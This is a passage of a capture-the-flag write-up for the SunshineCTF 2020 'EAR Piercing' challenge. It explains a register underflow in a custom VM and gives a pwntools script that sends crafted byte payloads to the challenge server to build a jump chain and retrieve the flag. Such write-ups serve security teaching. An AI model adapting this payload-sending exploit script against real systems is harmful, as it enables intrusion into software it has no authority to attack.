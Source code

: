 Second as I had mentioned earlier, my exploit became convoluted and there was
a much easier approach sitting right in front of me the entire time.

```  
014A.0000: PSH     RV, {R3-R7}  
014E.0000: POP     {PC-DPC}  
```

The instruction I partially used to set the zero flag was actually a push into
the RV register, which at most cases would be equal to zero. Upon the pushes
RV underflows into 0xfff0, meaning we have an instant write straight into the
virtual table, allowing us to jump to our shellcode much easier, or put
shellcode into the 0xff00 page, below is an example of overwriting the 0xff
page executable page to point to our stack address where our shellcode will
still sit. From this method you get 10 bytes to write to at 0xfff6:

```  
$ hexdump R 0xfff6 10  
fff6: ffff ffff ffff ffff ffff                 ..........  
```

With the second most byte needing to be 0xff if you want to execute there,
leaving you with around 7 bytes of shellcode, which could be a bit tight, and
if you went in one attempt you would need to have shellcode that is only above
0x80, which I couldn't get anything working with the read and write
primatives.

But here is a script that will change the 0xff page to point to the stack
making it executable at address 0xff00 instead of 0xfa00

```  
from pwn import *  
import time

context.log_level = 'error'

p = remote('chal.2020.sunshinectf.org',10004)

exploit1 = "ABCD" + '\xff'*4 + '\x11\x11' + '\xff'*4 +'\x4a\x01\x00\x00'
+'\xe4\xff\x00\x00'+'\xf8\x2f\xf9\x02\xf5\xf9\xff'  
exploit = 'a'*64 +'\x8f'

#get official bytes into the stack  
for x in range(21):  
   print x  
   time.sleep(.1)  
   p.sendline(exploit1[:len(exploit1)-x])  
   p.sendlineafter('ABCD',exploit)  
   #p.interactive()  
   time.sleep(.1)

exploit = '\xff'*64 + '\x80\x01' #start the Ropish chain  
p.sendline('ABCD')  
p.sendlineafter('ABCD',exploit)  
#p.interactive()

p.readuntil('Login success!\n')  
time.sleep(1)  
flag = p.readline()  
p.close()  
print "Enjoy your flag:",flag  
```

Original writeup
(https://github.com/kernelpoppers/ctf_writeups/tree/master/Sunshine_2020/EAR_Piercing).